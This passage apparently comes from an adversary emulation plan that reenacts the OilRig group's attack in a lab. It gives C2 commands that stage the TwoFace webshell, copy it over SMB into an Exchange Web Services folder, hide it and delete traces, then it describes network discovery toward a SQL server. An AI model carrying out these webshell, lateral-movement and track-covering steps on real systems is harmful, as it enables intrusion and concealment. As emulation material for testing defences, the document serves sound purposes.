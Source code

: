 OilRig covers their tracks by deleting the webshell from `gosta`'s user 
directory on `THEBLOCK`.

---

### :biohazard: Procedures

The webshell is first placed on THEBLOCK (10.1.0.5) to prepare for copying via 
SMB to WATERFALLS.

```bash
./evalsC2client.py --set-task goTb '102 C:\Users\Public\contact.aspx|contact.aspx'
```

Once in place, OilRig has copied the webshell directly into the Exchange Web 
Services directory.

```bash
./evalsC2client.py --set-task goTb '101 copy C:\Users\Public\contact.aspx "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"'
```

Set the file hidden attribute on WATERFALLS and delete the webshell from 
THEBLOCK using SideTwist

```bash
./evalsC2client.py --set-task goTb '101 attrib +h "\\10.1.0.6\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx" & del C:\Users\Public\contact.aspx'
```

<br>

### :moyai: Source Code
*  TwoFace Webshell: [TwoFace](../Resources/TwoFace/)

<br>

### :microscope: Cited Intelligence 
*  EWS lateral movement: https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/

<br>

## Step 5 - EWS Discovery

### :microphone: Voice Track

Step 5 emulates OilRig using the TWOFACE webshell to perform enumeration on the 
EWS `WATERFALLS (10.1.0.6)` to discover the SQL server `ENDOFROAD (10.1.0.7)`.

OilRig first uses the webshell to perform some initial discovery once on the 
host by enumerating the current user, system network configuration and system 
network connections. 

Output of the system network connections discovery indicates an open connection 
to `10.1.0.7` via a port commonly associated with SQL.

---